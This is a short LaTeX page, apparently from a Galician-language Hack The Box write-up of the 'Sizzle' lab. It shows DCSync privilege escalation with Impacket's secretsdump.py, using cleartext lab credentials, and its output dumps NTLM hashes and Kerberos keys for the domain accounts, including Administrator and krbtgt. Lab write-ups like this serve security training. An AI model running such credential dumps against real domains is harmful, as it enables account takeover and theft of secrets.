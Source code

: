 \documentclass[a4paper]{article}
\begin{document}
        \section{Escalada de privilexios: DCSync Rights}
Agora coas novas credenciais, e debido ao permiso \textbf{DCSync} podemos \emph{"dumpear"} os hashes dos usuarios do dominio:
        \begin{lstlisting}[language=Bash, caption=Dumpear hashes: secretsdump.py, linewidth=17.8cm]
$ secretsdump.py htb.local/mrlky:Football#7@10.10.10.103
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:131dbd325eebba9bb2c0bc26011f9caf:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:25c33121d980b4ab4779d4bc4b4981174615567d80e85d4e72272279876391ba
SIZZLE$:aes128-cts-hmac-sha1-96:e590eafb18dc5b5f812d71de9d88a901
SIZZLE$:des-cbc-md5:9ddc57a48645e657
[*] Cleaning up...\end{lstlisting}
\end{document}
